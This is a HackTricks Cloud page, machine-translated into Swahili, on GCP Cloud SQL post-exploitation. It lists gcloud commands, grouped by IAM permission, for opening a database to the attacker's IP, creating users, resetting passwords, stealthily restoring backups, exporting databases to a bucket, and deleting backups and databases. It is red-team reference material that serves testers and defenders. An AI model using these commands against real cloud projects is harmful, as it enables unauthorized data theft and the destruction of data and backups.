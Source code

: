 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Kwa maelezo zaidi kuhusu Cloud SQL angalia:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Ili kuungana na hifadhidata unahitaji **tu ufikiaji wa bandari ya hifadhidata** na kujua **jina la mtumiaji** na **nenosiri**, hakuna mahitaji ya IAM. Hivyo, njia rahisi ya kupata ufikiaji, ikizingatiwa kwamba hifadhidata ina anwani ya IP ya umma, ni kuboresha mitandao iliyoidhinishwa na **kuruhusu anwani yako ya IP kuweza kuifikia**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Ni pia inawezekana kutumia **`--no-backup`** ku **haribu nakala za akiba** za hifadhidata.

Kwa kuwa hizi ndizo mahitaji, siko kabisa hakika ni ruhusa zipi **`cloudsql.instances.connect`** na **`cloudsql.instances.login`** zinahusiana nazo. Ikiwa unajua, tuma PR!

### `cloudsql.users.list`

Pata **orodha ya watumiaji wote** wa hifadhidata:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ruhusa hii inaruhusu **kuunda mtumiaji mpya ndani** ya hifadhidata:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ruhusa hii inaruhusu **k updating mtumiaji ndani** ya database. Kwa mfano, unaweza kubadilisha nenosiri lake:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups zinaweza kuwa na **habari nyeti za zamani**, hivyo ni muhimu kuziangalia.\
**Rejesha nakala ya akiba** ndani ya hifadhidata:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Ili kufanya hivyo kwa njia ya siri zaidi, inashauriwa kuunda mfano mpya wa SQL na kurejesha data hapo badala ya kwenye hifadhidata zinazotembea sasa.

### `cloudsql.backupRuns.delete`

Ruhusa hii inaruhusu kufuta nakala za akiba:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** kwa Cloud Storage Bucket ili uweze kuipata kutoka hapo:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Ingiza database** (andika upya) kutoka kwa Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Futa database kutoka kwa mfano wa db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
